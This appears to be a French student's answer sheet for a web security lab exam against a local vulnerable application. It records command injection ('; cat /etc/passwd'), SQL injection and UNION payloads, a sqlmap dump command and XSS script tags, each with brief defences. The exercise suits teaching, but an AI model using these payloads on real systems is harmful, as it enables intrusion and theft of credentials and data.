 # Eval

SIMON EYRAGNE DFS 13


## Question 1
Performance parfaite;
<html> missing [lang] attribute; interpretation du navigateur selon la langue de l'utilisateur,
<img> missing [alt]: mettre description des images;
<meta name="viewport"> missing; pas d'optimisation pour les mobiles;
 mauvaise utilisation des fontsizes
 meta description pour le document,
  page bloqué pour l'indexation


## Question 2
un dossier config

Dirbuster déduit l'arborescence d'un site web depuis les requete HTTP si code 403 (forbidden) alors le fichier existe;
Pour se protéger, on peut limiter le nombre de requete depuis L'IP; Renvoyer code 404(not found) pour tous les fichiers;

## Question 3
8.8.8.8; cat /etc/passwd
chaine après la commande ping, j'affiche le fichier avec le cat 
; netstats
Apparemment pas installer sur le serveur, j'ai cherché une alternative
; nstat
Qui liste les connexions actives

possibilité d'exécuter des commandes OS, vol d'information, modification du server;
-validation des inputs: taille, min and max length;
-on escape les caractères ';'

## Question 4


## Question 5
Premier test avec ', qui renvoie une erreur sql;
2eme test avec  ' OR 1=1 -- , qui renvoie la liste + password des user
3eme test avec ' OR 1=1 UNION SELECT 1,1,1 -- , pas le bon nombre de colonnes
4eme avec ' OR 1=1 UNION SELECT 1,2 -- 
' OR 1=1 UNION SELECT CONCAT(information_schema.tables),2 --; unknown table information_schema 
Faille: récupération d'information sensible de la base;
Protection: préparation des requêtes en amont avec ORM;
on escape les caractères 
vérification de l'input
## Question 6

sqlmap -u "http://localhost/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --dbms=mysql --dump --cookie="PHPSESSID=nhea6jcj46io50n8b7r4dl1135; security=low" -b --current-db --current-user

Une injection SQL aveugle demande a la DB des questions vrai ou faux

## Question 7
<script>alert('js')</script>
On passe une balise script dans l'input
Faille: script pour récupérer des informations
Protection: on escape les caractère, mise en place d'un WAF

## Question 8

<script>alert('js')</script>
On passe une balise script dans l'input
Dans le cas d'une XSS stocké, le script malicieux est stocké en base
et peut donc se déclencher a tout moment;

## Question 9

Confidentiality, Integrityn, Availabitlity
Principe du transport de données

## Question 10

Le hash est un algorithme qui permet de modifier un texte en une valeur fixe. 
On rajoute un salt pour éviter que le hashage soit facilement retrouvé. 
Il existe des listes de correspondance entre mots et hash facilement trouvable;

Chiffrer est une méthode d'encodage pour que seul les personnes ayant la clé de chiffrement
puissent le décoder;
2 méthodes = symétrique: même clé de chiffrement
asymétrique: PGP, une clé public pour recevoir des messages chiffrés
et une clé privée pour les décoder;
